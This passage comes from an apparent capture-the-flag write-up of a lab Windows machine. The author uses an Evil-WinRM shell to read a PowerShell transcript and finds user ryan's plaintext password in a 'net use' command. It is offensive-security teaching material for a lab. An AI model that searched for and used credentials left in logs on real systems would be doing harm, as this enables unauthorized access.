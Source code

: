 ```powershell
-arhs-       11/20/2016   5:59 PM         389408 bootmgr
-a-hs-        7/16/2016   6:10 AM              1 BOOTNXT
-a-hs-        5/27/2020  11:54 PM      402653184 pagefile.sys
```

### Unsecure cmd

In my opinion it's always insecure to use passwords in plain-text in the command line and in this case I got a valid user password for the account ryan. 

```powershell
*Evil-WinRM* PS C:\PSTranscripts\20191203>type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
**********************                                                                                                                                                                                                                                                                                              [9/576]
Windows PowerShell transcript start
Start time: 20191203063201
Username: MEGABANK\ryan                                      
RunAs User: MEGABANK\ryan    
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
Process ID: 2800              
PSVersion: 5.1.14393.2273    
PSEdition: Desktop    
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273                                                                                                
BuildVersion: 10.0.14393.2273
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
Command start time: 20191203063455
**********************
PS>TerminatingError(): "System error."
>> CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')
if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"
>> CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="Stream"; value="True"
**********************
Command start time: 20191203063455
**********************
PS>ParameterBinding(Out-String): name="InputObject"; value="PS megabank\ryan@RESOLUTE Documents> "
PS megabank\ryan@RESOLUTE Documents>
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!

if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"
>> CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="Stream"; value="True"
**********************
Windows PowerShell transcript start
Start time: 20191203063515
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
```